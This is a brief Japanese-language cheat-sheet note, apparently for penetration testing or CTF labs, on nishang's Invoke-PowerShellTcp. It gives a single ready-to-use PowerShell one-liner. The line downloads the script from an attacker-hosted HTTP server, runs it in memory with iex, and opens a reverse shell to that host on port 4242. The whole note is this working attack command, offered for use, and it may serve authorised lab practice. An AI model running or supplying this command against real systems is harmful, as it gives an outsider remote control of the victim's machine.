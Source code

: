 # Invoke-PowerShellTcp(nishang)

# Usage
pythonSimpleHTTPServerをホストで立ててDL&Reverse shell貼るパターン
`powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.66.152:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.66.152 -Port 4242`
